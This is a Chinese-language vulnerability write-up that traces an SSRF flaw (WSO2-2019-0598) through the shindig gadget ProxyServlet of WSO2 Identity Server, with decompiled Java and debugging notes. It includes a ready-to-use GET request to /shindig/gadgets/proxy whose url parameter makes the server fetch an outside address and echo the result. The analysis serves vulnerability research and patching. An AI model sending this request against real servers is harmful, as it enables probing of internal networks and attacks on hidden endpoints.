WSO2 proxy SSRF漏洞 WSO2-2019-0598¶
漏洞描述¶
滥用 shindig Web 应用程序的 UI 小工具加载功能可以利用此漏洞。攻击者可以更改请求中的特定 URL，从而导致服务器向更改后的 URL 发起 GET 请求。通过利用此漏洞，攻击者可以使用服务器执行任意外部服务交互。这可以特别用于与内部网络的节点进行交互，否则这些节点会被网络规则隐藏在外部。攻击者可以利用它来追踪和侦察网络，除此之外，如果有内部端点对 GET 请求进行状态更改操作，那么就有可能很好地破坏它们的完整性。根据端点实施的保护级别，此漏洞的影响可能会有所不同。
漏洞影响¶
WSO2 Identity Server 5.2.0 , 5.3.0 , 5.4.0 , 5.4.1 , 5.5.0 , 5.6.0 , 5.7.0
WSO2 IS as Key Manager 5.3.0 , 5.5.0 , 5.6.0 , 5.7.0
环境搭建¶
https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip
漏洞复现¶
根据官方描述，漏洞造成的原因主要是 shindig Web 应用程序的 UI 小工具的加载功能, WSO2-2019-0598

下载源码启动环境，在IDEA中调试


根据官方描述，在全局搜索 shindig 相关代码

打下断点，看一下访问 /shindig/gadgets/js 路径时代码的调用流程

可以看到当访问此路径时，调用了对应的 Servlet 下的 doGet方法 来处理(org.apache.shindig.gadgets.servlet.JsServlet.doGet(JsServlet.java:86)

我们可以在文件 conf/shindig/web.xml 找到对应的调用方法

看到这我们注意到 org.apache.shindig.gadgets.servlet.MakeRequestServlet 似乎与 Jira未授权SSRF漏洞(CVE-2019-8451) 中存在的漏洞点十分的相似

但断点调试过程中，却发现这个点是利用失败的


只好去看一下其他的Servele , 最后我们注意到 ProxyServlet

发送请求包，打断点看一下处理流程
GET /shindig/gadgets/proxy?container=default&url=https://www.baidu.com HTTP/1.1
Host: localhost:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
通过 org.apache.shindig.gadgets.servlet.ProxyServlet 下的 doGet方法接收参数， 传入 processRequest
中
private void processRequest(HttpServletRequest request, HttpServletResponse servletResponse) throws IOException {
if (request.getHeader("If-Modified-Since") != null) {
servletResponse.setStatus(304);
} else {
Uri reqUri = (new UriBuilder(request)).toUri();
HttpResponse response;
try {
ProxyUri proxyUri = this.proxyUriManager.process(reqUri);
SecurityToken st = AuthInfoUtil.getSecurityTokenFromRequest(request);
proxyUri.setSecurityToken(st);
proxyUri.setUserAgent(request.getHeader("User-Agent"));
if (proxyUri.getGadget() == null && st != null && !st.isAnonymous()) {
proxyUri.setGadget(st.getAppUrl());
}
AuthType authType = proxyUri.getAuthType();
if (AuthType.OAUTH.equals(authType)) {
proxyUri.setOAuthArguments(new OAuthArguments(AuthType.OAUTH, request));
} else if (AuthType.OAUTH2.equals(authType)) {
proxyUri.setOAuth2Arguments(new OAuth2Arguments(request));
}
String host = request.getHeader("Host");
if (!this.lockedDomainService.isSafeForOpenProxy(host)) {
Uri resourceUri = proxyUri.getResource();
String msg = "Embed request for url " + (resourceUri != null ? resourceUri.toString() : "n/a") + " made to wrong domain " + host;
if (LOG.isLoggable(Level.INFO)) {
LOG.logp(Level.INFO, classname, "processRequest", "embededImgWrongDomain", new Object[]{resourceUri != null ? resourceUri.toString() : "n/a", host});
}
throw new GadgetException(Code.INVALID_PARAMETER, msg, 400);
}
if ("POST".equalsIgnoreCase(request.getMethod())) {
StringBuffer buffer = this.getPOSTContent(request);
response = this.proxyHandler.fetch(proxyUri, buffer.toString());
} else {
response = this.proxyHandler.fetch(proxyUri);
}
} catch (GadgetException var11) {
response = ServletUtil.errorResponse(new GadgetException(var11.getCode(), var11.getMessage(), 400));
}
ServletUtil.copyToServletResponseAndOverrideCacheHeaders(response, servletResponse);
}
}
向下跟进到org.apache.shindig.gadgets.servlet.ProxyHandler

org.apache.shindig.gadgets.servlet.ProxyHandler.fatch

接着向下看到 org.apache.shindig.gadgets.servlet.ProxyHandler 下的 buildHttpRequest 方法创建Http请求， 而目标就是我们刚刚传入的Url参数
private HttpRequest buildHttpRequest(ProxyUri uriCtx, Uri tgt, @Nullable String postBody) throws GadgetException, IOException {
ServletUtil.validateUrl(tgt);
HttpRequest req = uriCtx.makeHttpRequest(tgt);
req.setRewriteMimeType(uriCtx.getRewriteMimeType());
if (postBody != null) {
req.setMethod("POST");
req.setPostBody(new ByteArrayInputStream(postBody.getBytes()));
}
if (req.getHeader("User-Agent") == null) {
String userAgent = uriCtx.getUserAgent();
if (userAgent != null) {
req.setHeader("User-Agent", userAgent);
}
}
return req;
}


最后回显至页面中, 造成存在回显的SSRF
